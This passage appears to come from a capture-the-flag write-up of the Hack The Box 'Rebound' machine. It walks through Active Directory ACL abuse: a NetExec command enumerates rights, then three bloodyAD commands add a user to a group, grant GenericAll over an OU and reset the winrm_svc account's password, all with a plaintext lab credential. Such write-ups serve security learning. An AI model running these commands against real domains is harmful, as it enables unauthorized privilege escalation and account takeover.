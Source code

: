 This is how obtain the same information which is of particular interest to us - oorend has `Self` aka `Self-Membership` rights over the `ServiceMgmt` group. This is a privilege that enables the user to add themselves to a group. 

This is a different way to reach and follow that exploitation path we saw earlier in BloodHound.
#### ACLs with NetExec

I subsequently discovered that we can get the same information with NetExec as well, we just have to be quite specific, but that could come in handy if we already suspect what the way forward may be:

```shell
netexec ldap dc01.rebound.htb -u oorend -p '1GR8t@$$4u' -k --kdcHost 10.10.11.231 -M daclread -o TARGET=ServiceMgmt PRINCIPAL=oorend ACTION=read
```

![](Pasted%20image%2020240425221801.png)
## Exploitation Path

Going back to BloodHound, the `ServiceMgmt` group has `GenericAll` rights over `Service Users`, which means we can now add our user to that group, change the password of the user `winrm_svc` and log into the Domain Controller.

![](Pasted%20image%2020240425221848.png)
### BloodyAD for Active Directory privilege escalation

Here is where I found another incredible gem of a tool that has permanently joined my personal arsenal and that's [BloodyAD](https://github.com/CravateRouge/bloodyAD). It's largely based on Impacket and can do a lot of the same things, but with simpler and friendlier syntax, and a fantastic help menu that will quickly show you how commands work.

It will allow us to quickly execute the attack path, which is of importance here as there's a script that restores default user permissions running every 10 minutes or so.

All we need is three commands in quick succession:

```shell
bloodyAD -u oorend -p '1GR8t@$$4u' -d rebound.htb --host 10.10.11.231 add groupMember ServiceMgmt oorend

bloodyAD -u oorend -p '1GR8t@$$4u' -d rebound.htb --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend

bloodyAD -u oorend -p '1GR8t@$$4u' -d rebound.htb --host 10.10.11.231 set password winrm_svc Whatever13
```
